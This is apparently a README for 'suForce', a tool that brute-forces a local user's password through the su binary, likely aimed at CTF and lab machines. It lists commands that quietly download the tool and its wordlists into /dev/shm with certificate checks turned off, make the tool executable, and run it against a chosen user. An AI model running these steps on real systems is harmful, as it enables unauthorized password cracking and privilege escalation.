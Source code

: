 # **suForce**

### Obtains a user's password by abusing the su binary.

![](/suForce/img/screenshot.png)

---

## Download suForce

```sh
cd /dev/shm
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/suForce/suForce"
chmod +x suForce
```

## Download Wordlist (Optional)

```sh
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/suForce/techyou.txt"
wget --no-check-certificate -q "https://raw.githubusercontent.com/VulNyx/Arsenal/refs/heads/main/suForce/top12000.txt"
```

## Usage

```sh
./suForce -u <USER> -w <WORDLIST>
```

---
